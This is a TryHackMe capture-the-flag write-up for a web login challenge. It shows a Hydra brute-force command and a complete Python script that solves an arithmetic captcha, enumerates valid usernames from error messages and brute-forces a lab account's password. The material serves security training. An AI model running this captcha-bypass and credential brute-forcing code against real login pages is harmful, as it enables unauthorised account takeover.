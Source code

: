 ```yaml
---
title: "Capture! [WEB]"
categories: TryHackMe
permalink: /ctfs/tryhackme/capture
---
```

OWASP Top 10 Vulnerabilities: Broken authentication.

## 📁 Challenge Description

>Can you bypass the login form?

**WEBSITE**: `http://10.10.85.242/login`

**usernames.txt**

```
rachel
rodney
corrine
erik
chuck
[877 lines...] 
ronny
colin
ivy
madge
orville
```

**passwords.txt**

```
football
kimberly
mookie
daniel
love21
[1557 lines...]
douglas
qwerty
gabby
thankyou
arturo
```

## 🚩 Solution

The first method comes in my mind with the `usernames.txt` and `passwords.txt` given is to brute-force the login page by using HYDRA.

```
hydra -L usernames.txt -P passwords.txt 10.10.85.242 http-post-form "/login:username=^USER^&password=^PASS^:F=Error" -V -t 20 -I
```

However, it has 1375826 combinations to go through. Moreover, the website involve a captcha reader to prevent multiple login attempts. Therefore, I consider to look at other entry points within the website.

From my observation, the website does give us a vulnerable behavior which is the **Error message** it returns.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8d63bb32-06e8-4511-9f31-c766286a98fc)

Based on the image above, when a user enters a set of credentials, it will return an error message `"The user 'username' does not exist."`.

In other words, the website is checking the validity of the `username` instead of checking the `username` and `password`. Thus, the approach of this challenge is to enumerate out the existing username on the website, and then enumerate the password correspond to the username we had enumerated previously. By looking at the challenge hint, we know that we are on the right path.

![image](https://user-images.githubusercontent.com/107750005/237060722-d860b67f-63e0-4f33-90dc-78a0b5a3e272.png)

First, we need to bypass the captcha checker before enumerating the username as the error message indicates the validity of captcha even the username is invalid.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8334dac8-6900-4019-bb92-2f212c11b374)

To do this, we can create a `get_captcha()` function to manage the captcha part.

```python
#!/usr/bin/env python3
import requests
import re

url = 'http://10.10.85.242/login'

u = open('usernames.txt', 'r').readlines()
p = open('passwords.txt', 'r').readlines()

usernames = ''.join(u).split('\n')
passwords = ''.join(p).split('\n')

def get_captcha(data):

	res = requests.post(url, data=data)

	for item in re.findall('[0-9].*=', str(res.text), re.I+re.M):
		found = '{}'.format(item).split(" ")

	if found[1] == '+':
		return int(found[0]) + int(found[2])
	elif found[1] == '-':
		return int(found[0]) - int(found[2])
	elif found[1] == '*':
		return int(found[0]) * int(found[2])
```

We can observe that every math question generated from the website are `addition`, `subtraction`, and `multiplication` between two numbers. This can be concluded by clicking the "Login" button multiple times.

```python
def enumerate_username():

	testdata = {
		"username": "fakeuser",
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for username in usernames:
		data = {
			"username": username,
			"password": "fakepass",
			"captcha": captcha
		}

		res = requests.post(url, data=data)
		captcha = get_captcha(data) # refresh the captcha

		if re.findall('does not exist', str(res.text), re.I+re.M):
			print(f"[-] {username} does not exist.")
		else:
			print(f"[+] {username} found.") 
			break

enumerate_username()
```

As the captcha checker only appear in the `HTTP POST response`, therefore, a `fakeuser` and `fakepass` is created for retrieving the captcha question. After that, loop through all the usernames in the `usernames.txt` and refresh the captcha.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/9a2d1aa4-b030-4960-b005-36ed934d4a04)

Once the username is found, the process of password enumeration is similar with `enumerate_username()`. The only modification is to replace `fakeuser` to the username found `natalie`, and the error message to `"Invalid password"`.

```python
def enumerate_password():

	testdata = {
		"username": "natalie", # enumerated
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for password in passwords:
		data = {
			"username": "natalie",
			"password": password,
			"captcha": captcha
		}

		try:
			res = requests.post(url, data=data)
			captcha = get_captcha(data)

			if re.findall('Invalid password', str(res.text), re.I+re.M):
				print(f"[-] Not this password '{password}'.")

		except Exception as e:
			print(f"[+] Password '{password}' found.")
			break

enumerate_password()
```

>NOTE: Once the password is found, the website is no longer generate a new captcha question as it will redirect to another site (e.g., dashboard, etc.). The `get_captcha()` function will not detect any captcha question and results an UnboundLocalError. Therefore, it can be solved with the use of `try` and `except`.

Login with the credentials we had found to get the `Flag.txt`.

![image](https://user-images.githubusercontent.com/107750005/237055454-23b2f834-ba3d-466d-8c03-ef2779fad738.png)

***FLAG***: `7df2eabce3xxxxxxxxxxxxxxxxxxxxxxx`
